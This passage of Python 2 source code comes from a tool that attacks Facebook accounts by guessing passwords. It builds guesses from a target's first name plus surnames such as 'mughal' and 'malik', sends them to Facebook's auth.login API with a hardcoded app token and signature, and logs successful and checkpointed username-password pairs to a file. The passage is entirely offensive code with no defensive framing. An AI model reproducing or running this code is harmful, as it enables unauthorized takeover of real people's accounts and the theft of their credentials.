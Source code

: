 							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = b['first_name'] + 'mughal'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'malik'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
